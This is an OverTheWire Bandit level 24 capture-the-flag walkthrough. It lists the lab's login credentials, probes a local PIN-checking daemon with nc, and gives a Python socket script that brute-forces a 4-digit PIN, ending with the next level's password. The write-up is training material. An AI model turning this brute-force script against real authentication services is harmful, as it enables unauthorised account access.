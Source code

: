 #Level24
Connect to game via ssh on port 2220 using credentials bandit24:UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
_(format username:password)_
```sh
$ ssh -p 2220 bandit24@bandit.labs.overthewire.org
```

#Level Goal
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

#Walkthrough
Lets try testing response of the application.
```sh
bandit24@bandit:/tmp/bandit24$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 1234
Wrong! Please enter the correct pincode. Try again.
1234 1234
Wrong! Please enter the correct current password. Try again.
^C
```
We notice that program greets us with text starting 'I am' then expects password and pin. In both cases when correct and incorrect password is sent we recive message back that starts with word 'Wrong!'. We will use this fact to detect when correct pin was sent.

Lets create python script in /tmp/bndit24 to brute-force pin.

```sh
bandit24@bandit:~$ mkdir /tmp/bandit24 && cd $_ && vim solve.py
```
Press i to enter insert mode then paste below code:
```python
import socket

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('localhost', 30002))

pw = 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ '
nl = '\n'
for pin in range(9999):
    text = pw + str(pin) + nl
    rcv = s.recv(2048)
    print(rcv.decode())
    if 'Wrong!' not in rcv.decode() and 'I am' not in rcv.decode():
        break
    print('Sending: ' + text)
    s.sendall(text)

s.close()
```
Press `:wq to save code and exit vim then execute script
```
bandit24@bandit:/tmp/bandit24$ python solve.py
```
After a while we get the hit:
```
Sending: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 2588

Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
```